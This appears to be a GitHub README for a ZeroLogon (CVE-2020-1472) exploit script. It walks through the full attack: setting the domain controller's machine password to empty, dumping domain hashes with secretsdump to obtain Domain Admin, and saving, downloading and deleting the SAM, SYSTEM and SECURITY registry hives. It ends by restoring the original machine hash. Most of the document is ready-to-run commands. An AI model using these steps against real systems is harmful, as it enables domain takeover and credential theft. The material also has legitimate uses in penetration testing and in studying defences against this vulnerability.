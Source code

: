 # ZeroLogon exploitation script

Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc.

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/64ce46580286b5ab15a4737bddf85201ce2adde3 or newer. Then, do:

```
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

If that's successful you will then be able to:
```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```
which should get you Domain Admin. After you have that, wmiexec.py to the target DC with a credential from the secretsdump and do
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

Then you can
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by
```
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

Reinstalling the original hash is necessary for the DC to continue to operate normally.
